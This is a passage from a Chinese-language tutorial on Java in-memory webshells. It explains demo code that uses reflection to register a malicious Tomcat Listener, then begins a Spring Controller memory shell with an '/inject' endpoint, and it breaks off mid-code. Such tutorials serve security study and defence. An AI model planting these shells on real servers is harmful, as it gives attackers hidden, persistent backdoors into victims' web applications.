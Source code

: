 ### 3.3.2 Listener 内存马 demo 代码分析

最关键部分的代码如下：

```bash
Field reqF = request.getClass().getDeclaredField("request");
reqF.setAccessible(true);
Request req = (Request) reqF.get(request);
StandardContext context = (StandardContext) req.getContext();
EvilListener evilListener = new EvilListener();
context.addApplicationEventListener(evilListener);
```

前面四行代码干一件事：获取`StandardContext`；后两行干代码干这两件事：实例化我们编写的恶意`Listener`，调用`addApplicationEventListener`方法加入到`applicationEventListenersList`中去，这样最终就会到`eventListener`。

# 四、Spring MVC 框架型内存马

## 4.1 Spring Controller 型内存马

### 4.1.1 简单的 Spring Controller 型内存马 demo 编写

由`2.11.2.2`节中的分析可知，要编写一个`spring controller`型内存马，需要经过以下步骤：

-   获取`WebApplicationContext`
-   获取`RequestMappingHandlerMapping`实例
-   通过反射获得自定义`Controller`的恶意方法的`Method`对象
-   定义`RequestMappingInfo`
-   动态注册`Controller`

代码如下：

```bash
package org.example.springcontrollermemoryshellexample.demos.web;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RestController;
import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.context.request.ServletRequestAttributes;
import org.springframework.web.servlet.mvc.condition.PatternsRequestCondition;
import org.springframework.web.servlet.mvc.condition.RequestMethodsRequestCondition;
import org.springframework.web.servlet.mvc.method.RequestMappingInfo;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.InputStream;
import java.lang.reflect.Method;
import java.util.Scanner;

@RestController
public class TestEvilController {

    private String getRandomString() {
        String characters = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ";
        StringBuilder randomString = new StringBuilder();
        for (int i = 0; i < 8; i++) {
            int index = (int) (Math.random() * characters.length());
            randomString.append(characters.charAt(index));
        }
        return randomString.toString();
    }

    @RequestMapping("/inject")
    public String inject() throws Exception{
        String controllerName = "/" + getRandomString();
```